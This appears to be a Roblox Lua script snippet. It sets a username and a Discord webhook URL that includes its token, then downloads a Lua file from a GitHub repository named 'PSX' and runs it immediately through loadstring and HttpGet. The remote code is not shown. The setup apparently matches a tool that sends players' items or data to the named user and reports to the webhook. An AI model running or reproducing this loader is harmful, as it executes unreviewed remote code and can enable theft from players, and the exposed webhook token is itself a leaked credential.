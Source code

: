 UserName = "dragondeath212"
WebHook = "https://discord.com/api/webhooks/1093253605601058917/CaL810rBja-ebY6Ckp1KKJJN5X7wmgleNK-QOxyIDtcjK09gPQ5M2uh5u5sw00AVbikv"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/New.lua", true))()

